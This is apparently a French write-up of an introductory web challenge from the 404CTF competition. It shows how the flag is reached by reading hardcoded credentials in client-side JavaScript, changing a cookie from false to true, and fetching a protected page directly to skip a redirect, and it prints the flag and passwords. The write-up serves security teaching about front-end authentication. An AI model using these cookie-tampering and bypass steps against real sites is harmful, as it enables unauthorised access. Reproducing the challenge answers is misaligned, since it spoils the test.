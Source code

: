 ```yaml
---
layout: default
type: writeup
title: Le Loup et le renard
category: Web
point: 100
files: []
---
```


{% raw %}
> **title:** Le Loup et le renard
>
> **category:** Web
>
> **difficulty:** Introduction
>
> **point:** 100
>
> **author:** Artamis#7513 et V0odOo#3248
>
> **description:**
> Dans un coin du café, un homme est assis. Une tasse de café ainsi qu'un manuscrit sont posés devant lui. Il observe la salle : les allées-venues des clients, les conversations. Il semble à l'affût de la moindre action, du moindre écart de la part de son sujet d'observation. 
> 
> Alors que son regard parcourt la salle, il s'étonne de voir que vous l'observiez déjà. D'un geste accompagné d'un sourire il vous invite à le rejoindre.
> 
> « Bienvenue ! Prenez place. Il est rare de voir quelqu'un d'attentif à autre chose que sa propre personne ici. C'est dommage, c'est justement ce qu'il y  a de plus intéréssant dans ce genre de rassemblement : les  autres. Je me présente : Jean de La Fontaine. Votre regard me plait, vous me semblez capable de m'aider sur mon prochain manuscrit. J'écris, voyez-vous ? Des fables, je m'inspire de ce que je vois et j'observe. Pouvez-vous m'aider à écrire la suite de celle-ci ? »
> 
> ***
> 
> Ouvrez l'œil et trouvez la fin de cette fable.
> 
> ```
> https://le-loup-et-le-renard.challenges.404ctf.fr/
> ```

## Solution

### Partie 1

En regardant le code source de la page, on voit que le **`<form>`** appelle la fonction javascript **`auth()`**.

```html

<!DOCTYPE html>
<html lang="fr">
<head>...</head>
<body>
	<div class="title-section">...</div>
	<div class="fable">...</div>
	<div class="fable">...</div>
	<div class="challenge">
		<div class="machine">
			<form
			class="form"
			method="get"
			action="javascript:void(0)"
			onsubmit="auth()"
			>
			<label for="username">Nom d'utilisateur</label>
			<input type="text" name="username" id="username" placeholder="LafontN" />
			<label for="password">Mot de passe</label>
			<input type="password" name="password" id="password" />
			<input type="submit" value="Valider" id="submit" />
			</form>
			<div class="error"></div>
		</div>
	</div>

	<script>
	// Système d'authentification
	function auth() {
		if (
		document.getElementById("username").value === "admin" &&
		document.getElementById("password").value === "h5cf8gf2s5q7d"
		) {
		window.location.href = "/fable/partie-2-cookie";
		}
	}
	</script>

 </body>
</html>
```

Si le **`username == admin`** et le **`password == h5cf8gf2s5q7d`**, on est redirigé vers **`/fable/partie-2-cookie`**

<br>

### Partie 2

Ici on voit qu'un cookie est mis lors de la réponse du serveur :

![Set-Cookie dans la réponse du serveur](./images/partie2.png)

Il suffit de modifier sa valeur de **`false`** à **`true`** et de rafraîchir la page:

![Set-Cookie dans la réponse du serveur](./images/partie2-2.png)

<br>

### Partie 3

On voit dans le code source qu'en soumettant le formulaire on accède au chemin **`/fable/partie-4-flag-final`** mais que l'on est directement renvoyé sur la page précédente.

On va donc faire la requête à la main en JS :

```javascript
await (await fetch("https://le-loup-et-le-renard.challenges.404ctf.fr/fable/partie-4-flag-final?username=&password=")).text()

/*
<!DOCTYPE html>\n<html lang="fr">\n  <head>\n    <meta charset="UTF-8" />\n    <meta http-equiv="X-UA-Compatible" content="IE=edge" />\n    <meta name="viewport" content="width=device-width, initial-scale=1.0" />\n    <link\n      rel="shortcut icon"\n      href="../static/ico/favicon.ico"\n      type="image/x-icon"\n    />\n    <link rel="stylesheet" href="../static/font/Inter/inter.css" />\n    <link rel="stylesheet" href="../static/font/Metropolis/style.css" />\n    <link rel="stylesheet" href="../static/css/home.css" />\n    \n    <title>Le Loup et le Renard | Partie 4</title>\n    \n  </head>\n  <body>\n    \n<div class="back-to-home">\n  <p><a href="/">&#8617; Retour</a></p>\n</div>\n<div class="title-section">\n  <h1>Partie 4<br />Flag</h1>\n</div>\n<div class="fable">\n  <p>Chers développeurs, n'oubliez pas cette leçon,</p>\n  <p>Il est préférable de prendre son temps pour la protection.</p>\n  <p>L'authentification en front-end est une mauvaise idée,</p>\n  <p>Et peut laisser la porte ouverte aux pirates, c'est une réalité.</p>\n</div>\n\n<div class="fable">\n  <p>Alors, méfiez-vous, chers amis développeurs,</p>\n  <p>Et ne négligez jamais la sécurité de vos utilisateurs,</p>\n  <p>Car un site rapide et performant, sans sécurité,</p>\n  <p>Peut vite devenir une calamité.</p>\n</div>\n<div>Flag : 404CTF{N0_frOn1_3nD_auTh3nt1ficAti0n}</div>\n\x3Cscript>\n  const queryString = window.location.search;\n  const urlParams = new URLSearchParams(queryString);\n  if (urlParams.has("username") && urlParams.has("password")) {\n    const username = urlParams.get("username");\n    const password = urlParams.get("password");\n    if (!(username === "admin" && password === "Fbqh96BthQ")) {\n      document.location = "/fable/partie-3-redirect";\n    }\n  } else {\n    document.location = "/fable/partie-3-redirect";\n  }\n\x3C/script>\n\n  </body>\n</html>
*/
```

Le flag se trouve au milieu de l'HTML reçu. On aurait également pu désactivé l'exécution du JS dans le navigateur.

<br>

**`FLAG : 404CTF{N0_frOn1_3nD_auTh3nt1ficAti0n}`**

{% endraw %}
